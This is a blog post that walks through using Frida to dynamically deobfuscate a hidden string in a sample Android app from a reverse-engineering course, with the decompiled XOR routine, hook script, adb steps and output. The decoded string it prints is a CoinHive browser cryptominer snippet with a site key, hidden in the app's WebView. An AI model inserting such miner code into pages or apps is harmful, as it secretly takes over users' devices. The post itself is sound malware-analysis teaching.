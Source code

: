 ```yaml
---
layout: post
title: "Deobfuscating with Frida Exercise"
date: 2022-07-06
---
```


Lately been diving a little deeper into my side journey with Android app reversing.

I went over Maddie Stone's amazing Android Reversing course [here](https://www.ragingrock.com/AndroidAppRE/app_fundamentals.html). I decided to take on one exercise at a time. The [last exercise](https://www.ragingrock.com/AndroidAppRE/obfuscation.html#exercise-7---string-deobfuscation) in the course goes over string deobfuscation. There are Java methods that are passed in app to take a mysterious obfuscated string and reverse it back to being human readable for a Webview method to load it.

```
webView.loadData(z1.b(new String(z1.a("773032205849207A38313
26F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B531637352
22D393B475C7A37222D7F38421B6A6664303220584920647730322058492
0643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5
F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B1
01F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342
E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", null);
```

In the exercise, it was cracked by reimplementing the methods in Python and mirroring the code to deobfuscate the string. However, I came across an [interesting tutorial](https://1337.dcodx.com/mobile-security/owasp-mstg-crackme-1-writeup-android) using [Frida](https://frida.re/). A "Dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers." Being a Frida novice I wanted to take the time to learn more beyond using given scripts. Even though the community scripts are very very useful! With Frida, you can utilize and load the classes and methods to sort of "replay" what the app is doing with the data passed to it. So, combining this knowledge with the exercise from Maddie's course, I tried my hand at dynamically cracking the string using the methods as given in the example app.

I. Install the app on an Android device. I grabbed the `.apk` out of the VM given in the exercise from Android RE course and installed on an emulated Android.

`adb install apks\ClashOfLights.apk`

Side note: I already have Android Studio installed and like it for a few reasons. Not only does it have Android Emulator tool, but you can add a JADX-GUI plugin to decompile APKs.

II. Write the Javascript hook Frida will use.

Looking at this code snippet, I threw in the one class and 2 methods I would need.

```
package com.supercell.titan;

/* loaded from: classes.dex */
public class z1 {
    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

So I need class `z1` and it's methods, `a` and `b`.

**deob.js**
```

setImmediate(function() {
    console.log("[*] Start");

    Java.perform(function() {

        var str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D3
        93B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C3
        83C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331
        717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

        console.log("[*] Loading z1")
        var clazz_z1 = Java.use('com.supercell.titan.z1');
        // var bytes = clazz_z1.a(str); For some reason the byte array had spaces so had I just hardcoded it below for clarity of what method z1.a does...
        console.log("[*] UTF-8 String from Byte array created from clazz_z1.a(str)")
        var str2 = String.fromCharCode(119,48,50,32,88,73,32,122,56,49,50,111,19,81,32,46,59,48,107,125,30,90,59,
        51,37,43,56,36,84,23,55,53,38,108,61,59,83,22,55,53,34,45,57,59,71,92,122,55,34,45,127,56,66,27,106,102,
        100,48,50,32,88,73,32,100,119,48,50,32,88,73,32,100,61,34,35,114,92,80,58,63,57,99,108,114,95,92,35,122,
        8,44,56,60,121,80,34,63,101,2,63,61,95,64,57,53,62,48,121,117,95,95,102,110,17,52,20,31,92,76,100,55,122,
        27,103,31,86,90,27,44,127,123,16,31,66,112,13,31,57,51,23,23,22,21,116,33,63,43,35,55,80,93,39,96,107,113,
        44,123,10,84,61,52,46,49,127,33,69,88,38,46,99,106,106,110,30,74,55,40,34,51,37,108)
        console.log("[*] Using method b from class z1")
        var result = clazz_z1.b(str2);
        console.log()
        console.log("****** DEOBFUSCATED STRING ******")
        console.log(result)
        console.log("****** DEOBFUSCATED STRING ******")
        console.log()
    })
    
    console.log("[*] End");

})

```

Not pretty, but does the job!


III. Orchestrate the Frida server on the emulated Android and then hook this JS into the app to run.


`adb push ./frida-server-15.1.20-android-x86 /data/local/tmp/frida-server` <--- based on architecture of the device. Frida docs are great with guiding with this but I also like [this tutorial's](https://httptoolkit.tech/blog/frida-certificate-pinning/#install-and-start-frida-on-the-device) steps.

`adb root`

`adb shell "chmod 755 /data/local/tmp/frida-server"`

`frida -U -l ./deob.js -f com.clashof.lights`s

Running this I got:

```
C:\Users\Alexis\platform-tools>frida -U -l ./deob.js -f com.clashof.lights
     ____
    / _  |   Frida 15.1.20 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawning `com.clashof.lights`...
[*] Start
[*] End
Spawned `com.clashof.lights`. Use %resume to let the main thread start executing!
[Android Emulator 5554::com.clashof.lights ]-> %resume


Frida Output

[*] Start
[*] Loading z1
[*] UTF-8 String from Byte array created from clazz_z1.a(str)
[*] Using method b from class z1

****** DEOBFUSCATED STRING ******
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
****** DEOBFUSCATED STRING ******

[*] End
```

There you go, the deobfuscated string dynamically grabbed through Frida! I suspect this type of obfuscation method isn't necessarily that common. But I plan to use this use case for other types of dynamic analysis in the future!

